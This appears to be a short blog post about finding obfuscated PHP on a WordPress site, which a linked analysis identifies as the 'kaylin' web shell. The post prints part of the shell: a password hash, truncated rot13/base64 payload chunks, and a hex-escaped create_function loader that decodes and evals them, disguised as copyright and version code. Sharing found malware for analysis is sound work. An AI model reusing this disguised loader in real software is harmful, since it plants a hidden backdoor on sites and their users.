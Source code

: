 
In searching for answers as to what this code is doing I found this repo for malware analysis specifically concerning Wordpress websites, <a href="https://github.com/bediger4000/php-malware-analysis/tree/master/webshells/kaylin" target="_blank">kaylin web shell analysis</a>. Bediger4000 describes this as a fully featured chinese language web shell (pretty scary stuff) complete with a GUI and code that is designed to search for MySQL and Oracle databases remotely on anyone that's infected with it. 

What it primarily does is this: 

```js
	$password = "1e89117b6bab59e6562df2355e81c158"; 

	define('VERSION','kaylin');

 $register_key = array 
( 
	array
	(
		'CQ9jnUNtDTIlpz9lK3WypT9lqTyhMluSK0IFHx9FXGgNnJ5cK3AyqPtaMTympTkurI9ypaWipaZaYPqCMzLaXGgN' , 
		'nJ5cK3AyqPtaoJS4K2I4MJA1qTyioy90nJ1yWljkZQNjZPx7nTIuMTIlXPWwo250MJ50YIE5pTH6VUEyrUDinUEg' , 
		'oQftL2uupaAyqQ1aLwVmZGVvXGgzqJ5wqTyiovOmqUWxnKVbWUA0pvxtrlOlMKE1pz4tp3ElK3WypTkuL2HbLKWl' , 
		'LKxbW1kpWljaYl8aYPpyZwpaYPpyZwVaXFkupaWurFtaYlpfWl8aYPqpWlpfWlVaXFkwnT9jXPEmqUVcXGftsJM1' , 
		'ozA0nJ9hVTAbn2qjLltxLKWlLKxcVUftMz9lMJSwnPtxLKWlLKxtLKZtWTgyrFN9CvNxqzSlXFO7VPEupaWurIfx' , 
		'n2I5KFN9VTymK2SlpzS5XPE2LKVcVQ8tL2ueM3OwXPE2LKVcVQbtp3ElnKOmoTSmnTImXPE2LKVcBlO9VUWyqUIl' , 
		'ovNxLKWlLKx7VU0xoKyznJkyVQ0tWS9GEIWJEIWoW1AQHxyDIS9TFHkSGxSAEFqqVQ8tp3ElMTylXPEsH0IFIxIF' , 
		...

		// BLOG AUTHORS COMMENT: and here

		/**
 * Language and charset conversion settings
 */
$check_copyright = create_function /*Copyright*/ 
( 
	
	"/*\x64\x65\x28\x73\x74\x72*/\x24\x63\x6f\x64\x65/*\x63\x6f\x64\x65\x29*/" , 
	"/*\x36\x34\x5f\x64\x65*/\x65\x76\x61\x6c\x20\x28\x20\x27\x20\x3f\x3e\x27" . 
	"\x20\x2e\x20\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65\x20\x28" . 
	"\x20\x73\x74\x72\x5f\x72\x6f\x74\x31\x33\x20\x28\x20\x6a\x6f\x69\x6e\x20" . 
	"\x28\x20\x27\x27\x20\x2c\x20\x24\x63\x6f\x64\x65\x20\x29\x20\x29\x20\x29" . 
	"\x20\x2e\x20\x27\x3c\x3f\x70\x68\x70\x20\x27\x20\x29\x3b/*\x63\x6f\x64*/" 
	
) ; 


$global_version = array_walk /*Version*/ 
( 
	
	$register_key , 
	
	 $check_copyright 
	
) ; 
```
